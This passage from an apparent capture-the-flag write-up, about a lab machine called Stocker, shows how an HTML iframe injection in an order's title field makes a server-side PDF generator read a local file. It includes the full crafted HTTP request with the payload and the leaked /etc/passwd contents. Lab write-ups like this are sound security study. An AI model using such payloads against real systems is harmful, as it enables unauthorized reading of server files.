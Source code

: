 Now accessing the pdf again but this time with the new orderID

It works but its looks kinda small
![image](https://user-images.githubusercontent.com/113513376/213949419-9ec993b2-5ed2-4ce5-8712-a54822f8126c.png)

So i'll redit the request again 

```
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 239
Connection: close
Cookie: connect.sid=s%3A8XVW8w791Amd4QZxsCRVUrl7-hfnlp7V.ispsz43tztEA0VsYgsK3XS4vF%2FNjg6pMRBVsqFdRJOk

{"basket":[{"_id":"638f116eeb060210cbd83a93","title": "<iframe src=file:///etc/passwd height=750px width=750px></iframe>","description":"It's toilet paper.","image":"toilet-paper.jpg","price":0.69,"currentStock":4212,"__v":0,"amount":1}]}
```

And try accessing it with the new orderID
![image](https://user-images.githubusercontent.com/113513376/213949740-6dfdf2f4-6d19-48bc-98d2-f8a501e2abe7.png)

Now we have the full content of the /etc/passwd file

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:113::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:114::/nonexistent:/usr/sbin/nologin
landscape:x:109:116::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
fwupd-refresh:x:112:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mongodb:x:113:65534::/home/mongodb:/usr/sbin/nologin
```